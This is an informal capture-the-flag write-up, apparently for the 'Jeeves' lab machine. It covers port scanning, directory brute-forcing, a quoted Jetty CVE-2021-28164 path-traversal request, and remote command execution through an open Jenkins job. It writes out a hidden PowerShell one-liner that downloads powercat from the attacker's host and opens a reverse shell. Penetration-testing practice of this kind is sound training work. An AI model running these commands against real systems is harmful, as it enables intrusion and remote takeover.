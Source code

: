 ```
 sudo nmap -sS -sC -sV -p- 10.10.10.63
```
```
Nmap scan report for 10.10.10.63
Host is up (0.026s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-23T20:00:18
|_  start_date: 2025-09-23T19:54:40
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

port 80 webserver:
![[Pasted image 20250923200203.png]]

if i hit search on hello, im presented a crazy err:
![[Pasted image 20250923200236.png]]

port 50000:
![[Pasted image 20250923200256.png]]

i will rip a gobuster or forexbuster:
```
feroxbuster -u http://10.10.10.63:50000
```
returned nothing....

lets try gobuster:
```
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 -x php,html,txt
```

also nothing.... let me look more into Jetty...
found this: https://www.exploit-db.com/raw/50438
```
# Exploit Title: Jetty 9.4.37.v20210219 - Information Disclosure 
# Date: 2021-10-21
# Exploit Author: Mayank Deshmukh
# Vendor Homepage: https://www.eclipse.org/jetty/
# Software Link: https://repo1.maven.org/maven2/org/eclipse/jetty/jetty-distribution/9.4.37.v20210219/
# Version: 9.4.37.v20210219 and 9.4.38.v20210224
# Tested on: Kali Linux
# CVE : CVE-2021-28164

POC #1 - web.xml

GET /%2e/WEB-INF/web.xml HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

i will run gobuster one more time but this time i will use a bigger and better wordlist to completely rule this out... could be a bunny hole if we dont find anything and also non raft wordlist:
```
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt
```
```
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
```
nice!
![[Pasted image 20250923201328.png]]

this is DevOps pipeline platform called Jenkins(i use this every single day at work lol)

i see a login and do a google search for default creds:
```
There isn't a single "default Jenkins login" because the initial admin password is randomly generated and stored in a file on the Jenkins server, typically found at
$JENKINS_HOME/secrets/initialAdminPassword
```
interesting...
![[Pasted image 20250923201728.png]]

i am able to add credentials... usually this is used so that pipeline scripts can grab vars and use them without putting them in plaintext in the jenkins scripts

i am also able to create a job and in that job i can easily run a command on target:
ill create a job called "bomb" and add the below
![[Pasted image 20250923202247.png]]

when i run the job the output is:
```
Building in workspace C:\Users\Administrator\.jenkins\workspace\bomb
[bomb] $ cmd /c call C:\Users\kohsuke\AppData\Local\Temp\jenkins6106421549052884824.bat

C:\Users\Administrator\.jenkins\workspace\bomb>whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins\workspace\bomb>exit 0 
Finished: SUCCESS
```

confirmed RCE!

let throw a rev shell in there and get in!

first ill move powercat.ps1 to my working dir then:
```
powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/powercat.ps1'); powercat -c 10.10.14.16 -p 4444 -e cmd"

```

start my netcat listener on port 4444, and run the job!

check listener and i am in as `kohsuke`

lets get user flag on their desktop:
```
C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb4************
```

User PWNED!

---

### Priv Esc

